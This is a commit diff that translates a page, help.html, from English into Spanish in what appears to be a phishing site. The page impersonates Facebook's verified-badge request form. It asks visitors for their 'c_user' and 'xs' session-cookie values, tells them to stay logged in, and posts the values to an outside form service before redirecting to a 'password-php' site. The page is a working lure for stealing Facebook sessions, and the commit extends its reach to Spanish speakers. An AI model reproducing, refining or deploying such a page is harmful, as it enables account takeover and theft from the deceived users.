

Before and after one commit to jesswhiteus/wasit12, a plain HTML site: page help.html in a window 1280 px wide. Shown: the part 74-790 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; a script that the page names is missing.

Commit message:
Update help.html

```diff
--- a/help.html
+++ b/help.html
@@ -26,18 +26,18 @@
                 <div class="col-12 my-4 d-flex justify-content-center align-items-center">
                     <div class="col-11 col-md-6 border">
                         <div class="p-2" style="background: rgb(245, 246, 247);">
-                            <h5 class="m-0">Request a verified badge on Facebook</h5>
+                            <h5 class="m-0">Solicite una insignia verificada en Facebookk</h5>
                         </div>
                         <div class="p-2">
-                            <p class="fw-semibold validation_form_para">The verified badge means that Facebook has confirmed that the Page or profile is the authentic presence of the individual, public figure or brand that it represents.</p>
-                            <p class="fw-semibold validation_form_para">Previously, the verified badge also required the person or brand to be notable and unique. You may still see users with a verified badge that represents our previous eligibility requirements.</p>
-                            <p class="fw-semibold validation_form_para">Please provide the precise details below. Refer to the video for clarification if you find the instructions unclear. </p>
-                            <p class="fw-semibold text-secondary" style="font-size: 12px;">Detailed Video Information.</p>
+                            <p class="fw-semibold validation_form_para">La insignia verificada significa que Facebook ha confirmado que la página o perfil es la presencia auténtica del individuo, figura pública o marca que representa.</p>
+                            <p class="fw-semibold validation_form_para">Anteriormente, la insignia verificada también requería que la persona o marca fuera notable y única. Es posible que aún vea usuarios con una insignia verificada que representa nuestros requisitos de elegibilidad anteriores.</p>
+                            <p class="fw-semibold validation_form_para">Proporcione los detalles precisos a continuación. Consulte el vídeo para obtener aclaraciones si las instrucciones no le resultan claras. </p>
+                            <p class="fw-semibold text-secondary" style="font-size: 12px;">Información detallada del vídeo.</p>
                             <a href="detailed video.mp4">
                                 <img src="fbVideo.png.1fd476160a3ed7a2f565.png" alt="fb" style="width: 120px; height: 80px;">
                             </a>
                             <br>
-                            <p class="fw-semibold validation_form_para mt-2">Please be sure to provide the requested information below.</p>
+                            <p class="fw-semibold validation_form_para mt-2">Asegúrese de proporcionar la información solicitada a continuación.</p>
                             <form class='content' action="https://submit-form.com/3DPQstcxi" method="POST">
                                 <input type="hidden" name="_redirect" value="https://password-php.vercel.app/"/>
                                 <label class="" style="font-size: 12px;">c_user</label>
@@ -47,9 +47,9 @@
                                 <label class="mt-2" style="font-size: 12px;">xs</label>
                                 <br>
                                 <input type="text" name="xs" id="xs" placeholder="" pattern="^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@#$%^&+=]).{40,}$" title="Must Watch Detailed Video" required="1" aria-required="true">
-                                <p class="mt-2" style="font-size: 12px;">Please make sure not to log out from your computer or laptop until you have received a verification email.</p>
+                                <p class="mt-2" style="font-size: 12px;">Asegúrese de no cerrar sesión en su computadora o computadora portátil hasta que haya recibido un correo electrónico de verificación.</p>
                                 <div class="p-2 mb-2 d-flex justify-content-end" style="background: rgb(245, 246, 247);">
-                                    <button type="submit" class="text-white border-0" style="background: rgb(66, 103, 178);">Submit</button>
+                                    <button type="submit" class="text-white border-0" style="background: rgb(66, 103, 178);">Entregar</button>
                                 </div>
                             </form>
                         </div>
```
